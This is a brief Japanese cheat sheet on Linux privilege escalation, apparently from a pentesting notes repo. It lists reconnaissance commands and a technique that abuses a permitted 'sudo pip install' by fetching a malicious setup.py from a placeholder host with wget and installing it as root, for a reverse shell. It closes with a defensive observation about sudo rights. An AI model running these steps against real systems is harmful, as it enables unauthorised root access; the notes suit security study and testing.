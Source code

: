 # 権限昇格

## 情報収集

### 特定ユーザーが所有するファイル一覧

```shell
find / -user <name> 2>/dev/null
```

### 現在のユーザーが使えるシステムコマンドを調べる

権限のないユーザーが実行するとインシデント通知が出る可能性があるので注意！

```shell
sudo -l
```

## sudo pip install が許可されている場合

不正な setup.py を使うことで、root でリバースシェルの起動が可能  
https://github.com/0x00-0x00/FakePip/tree/master

```shell
wget http://<ip>/setup.py
sudo pip install . --upgrade
```

ユーザーごとに

```shell
pip install --user
```

## セキュリティ視点

- 悪意を持つ者に何かしらの sudo 権限を与えたら、root を取られると思った方が良い
